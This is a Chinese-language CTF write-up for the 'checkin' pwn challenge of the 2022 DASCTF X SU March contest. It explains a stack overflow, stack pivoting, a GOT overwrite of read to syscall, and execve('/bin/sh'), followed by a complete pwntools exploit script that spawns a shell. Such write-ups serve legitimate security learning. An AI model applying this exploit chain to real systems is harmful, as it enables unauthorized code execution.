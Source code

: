 ```yaml
---
layout: article
pageview: true
key: 2022-03-28-buu-March-pwn-wp
title: 2022DASCTF X SU 三月春季挑战赛 Pwn题WP
author: Ch4rc0al
categories: 
    - WriteUps
tags: 
    - CTF
    - Pwn
---
```


# 2022DASCTF X SU 三月春季挑战赛 Pwn题WP

<!--more-->

## checkin

题目环境2.31，保护只有NX，题目内可利用函数只有`read`和`setvbuf`，main函数中溢出到ret便结束了。

调用`read`函数的代码通过`rbp+buf`的形式算出`rsi`,我们可以通过溢出控制`rbp`并再次调用`read`函数来在指定地址写入内容，之后栈迁移便可控制程序流执行`execve("/bin/sh",0,0)`。

我们通过修改`read`函数的got表，使其指向`syscall`,再通过`syscall`调用`execve`即可。

2.31的libc中，修改`read`地址为`syscall`需要爆破半字节。



```python
from pwn import *
context(arch='amd64', log_level='debug')
flag = 0
ps = './checkin'
libc = ELF("./libc.so.6")
elf = ELF(ps)


def getConn():
    global flag
    if(flag == 1):
        return remote(host, port)
    return process(ps)


def debug(conn, arg=None):
    global flag
    if(flag == 1):
        return
    gdb.attach(conn, arg)
    pause()


def csu(call, rdi, rsi, rdx):
    csu_end = 0x40124A
    csu_front = 0x401230
    payload = p64(csu_end)+p64(0)+p64(1)+p64(rdi)+p64(rsi) + \
        p64(rdx)+p64(call)+p64(csu_front)+b'\x00'*0x38
    return payload


leave_ret = 0x00000000004011e2
p_rsi_15 = 0x0000000000401251
p_rdi = 0x0000000000401253
addr = elf.bss()+0x500
p = getConn()


p.send(b'a'*0xa0+p64(addr+160)+p64(0x4011bf))
sleep(0.1)

log.info(hex(addr+160))

pay = csu(elf.got['read'], 0, elf.got['read'], 2) + \
    p64(0x401156)

pay = pay.ljust(0xa0, b'\x00')
pay += p64(addr-8)+p64(leave_ret)
p.send(pay)


sleep(0.1)

p.send('\x00\xb0')

sleep(0.1)

addr += 0x100

p.send(b'a'*0xa0+p64(addr+160)+p64(0x4011bf))
sleep(0.1)

binsh = addr-0x100

pay = csu(elf.got['read'], 0, binsh, 8)+p64(0x401156)
p.send(pay.ljust(0xa0, b'\0')+p64(addr-8)+p64(leave_ret))
sleep(0.1)

p.send('/bin/sh\x00')

sleep(0.1)
addr += 0x100

# debug(p)

p.send(b'a'*0xa0+p64(addr+160)+p64(0x4011bf))
sleep(0.1)

pay = p64(0x40124a)+p64(0)+p64(1)+p64(0)+p64(addr+0x100)+p64(59)+p64(elf.got['read'])+p64(
    0x401230)+p64(0)*3+p64(binsh)+p64(0)*2+p64(elf.got['read'])+p64(0x401230)

p.send(pay.ljust(0xa0, b'\0')+p64(addr-8)+p64(leave_ret))

sleep(0.1)
p.send('\x00'*59)


p.interactive()

```
